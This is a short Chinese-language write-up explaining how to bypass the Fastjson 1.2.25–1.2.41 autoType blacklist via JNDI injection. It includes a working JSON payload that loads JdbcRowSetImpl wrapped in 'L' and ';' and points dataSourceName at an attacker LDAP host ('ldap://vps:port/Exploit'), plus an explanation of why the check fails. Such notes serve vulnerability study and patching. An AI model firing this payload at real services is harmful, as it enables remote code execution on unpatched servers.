 # Fastjson1.2.25-1.2.41补丁绕过

## 以JNDI注入为例

这里先给出payload，注意如果要开启AutoTypeSupport的，添加以下代码

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```



```java
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://vps:port/Exploit", "autoCommit":true}
```

可以看到这里在里面类前后分别加了`L`和`;`

我们知道后面是加了一个`checkAutoType`函数，里面有一些黑名单，后面调用`TypeUtils`的`loadClass`函数![](img/1.png)

类名由于是以”L”开头，因此并不在`denyList`黑名单中，从而绕过了黑名单校验，再往下开始调用`TypeUtils.loadClass()`，判断类名是否以”L”开头、以”;”结尾，是的话就提取出其中的类名再加载进来，因此能成功绕过